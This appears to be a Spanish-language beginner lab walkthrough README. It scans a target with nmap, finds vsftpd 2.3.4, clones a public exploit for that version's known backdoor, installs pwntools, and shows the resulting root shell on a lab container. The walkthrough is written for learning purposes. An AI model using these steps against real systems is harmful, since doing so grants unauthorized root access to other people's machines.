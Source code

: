 # MyFirstHacking
## 1. Reconocimiento de Puertos con Nmap

Realizamos un escaneo con `nmap` para detectar puertos abiertos y sus versiones. 

```bash

nmap -sV -p 21 <IP_DEL_OBJETIVO>

```

**Resultados Clave:**

*   `21/tcp open ftp vsftpd 2.3.4`: El puerto 21 está abierto y ejecuta el servidor FTP vsftpd versión 2.3.4.

La versión específica de `vsftpd` es una pista crucial, ya que `vsftpd 2.3.4` es famosa por tener una vulnerabilidad de puerta trasera (backdoor).

## 2. Explotación del Servicio FTP

La versión `vsftpd 2.3.4` contiene una puerta trasera maliciosa que permite la ejecución remota de comandos. Esto significa que podemos obtener una shell en el sistema objetivo con privilegios elevados.

### 2.1. Búsqueda y Obtención del Exploit

Buscamos un exploit público para esta vulnerabilidad. Un buen recurso es GitHub o Exploit-DB. 

```bash
git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit
```

### 2.2. Resolución de Dependencias (PwnTools)

Al intentar ejecutar el exploit de Python, es común encontrarse con errores de módulos no encontrados, como `ModuleNotFoundError: No module named 'pwn'`. Esto significa que la librería `pwntools`, necesaria para el exploit, no está instalada.

Para solucionar esto de forma limpia y evitar conflictos con otras instalaciones de Python, se recomienda usar un entorno virtual (`venv`).

1.  **Crear un entorno virtual:** Esto aísla las dependencias del proyecto del sistema global de Python.

    ```bash
    python3 -m venv ~/venvs/pwnenv
    ```

2.  **Activar el entorno virtual:** Esto asegura que cualquier paquete que instalemos se guarde dentro de este entorno y no afecte a otras instalaciones de Python.

    ```bash
    source ~/venvs/pwnenv/bin/activate
    ```

3.  **Instalar `pwntools`:** Ahora, instalamos la librería `pwntools` dentro del entorno virtual activo.

    ```bash
    pip install pwntools
    ```

Una vez instalada, el exploit debería poder ejecutarse sin problemas de dependencias.

### 2.3. Ejecución del Exploit

```bash
python3 exploit.py <IP_DEL_OBJETIVO>
```

**Salida del Exploit:**

El exploit se conecta al servicio FTP, activa la puerta trasera y nos proporciona una shell remota.

```

[+] Got Shell!!!

[+] Opening connection to 172.17.0.2 on port 21: Done

[*] Closed connection to 172.17.0.2 port 21

[+] Opening connection to 172.17.0.2 on port 6200: Done

[*] Switching to interactive mode

```

### 2.4. Verificación de Acceso

El comando `whoami` confirma que hemos obtenido una shell con privilegios de `root`.

```bash
whoami
# root
```
